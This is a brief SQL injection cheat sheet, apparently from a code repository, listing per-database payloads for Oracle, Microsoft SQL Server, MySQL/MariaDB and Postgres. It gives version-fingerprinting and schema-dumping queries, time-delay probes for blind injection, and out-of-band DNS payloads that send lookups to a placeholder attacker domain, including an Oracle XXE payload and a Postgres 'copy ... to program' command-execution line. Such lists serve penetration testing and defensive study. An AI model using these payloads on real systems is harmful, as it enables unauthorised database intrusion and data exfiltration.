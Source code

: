 # Sql Injection

## Database Name / Version
- Oracle - `SELECT banner FROM v$version` `SELECT version FROM v$instance`
- Microsoft / MySql / MariaDB - `SELECT @@version`
- Postgres - `SELECT version()`

## Dumping Table / Column Names
- Oracle - `SELECT * FROM all_tables` `SELECT * FROM all_tab_columns WHERE table_name = <TABLE>`
- Microsoft / Postgres / MySql / MariaDB - `SELECT * FROM information_schema.tables` `SELECT * FROM information_schema.columns WHERE table_name = <TABLE>`

## Time Delays (Blind Injection)
- Oracle - `dbms_pipe.receive_message(('a'),10)`
- Microsoft - `WAITFOR DELAY '0:0:10'`
- Postgres - `SELECT pg_sleep(10)`
- MySql / MariaDB - `SELECT sleep(10)`

## DNS Lookup (Blind Injection)
- Oracle (v11.2.0.3 - v12.1.0.2) - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "<URL>/"> %remote;]>'),'/l') FROM dual`
- Oracle (Elevated privileges) - `SELECT UTL_INADDR.get_host_address('<DOMAIN>')`
- Microsoft - `exec master..xp_dirtree '//<DOMAIN>/a'`
- Postgres - `copy (SELECT '') to program 'nslookup <DOMAIN>'`
- MySql / MariaDB (Windows only) - `LOAD_FILE('\\\\<DOMAIN>\\a')` `SELECT ... INTO OUTFILE '\\\\<DOMAIN>\a'`


## MongoDB
** Safe from traditional attacks, from building a BSON object, instead of assembling a query from string **

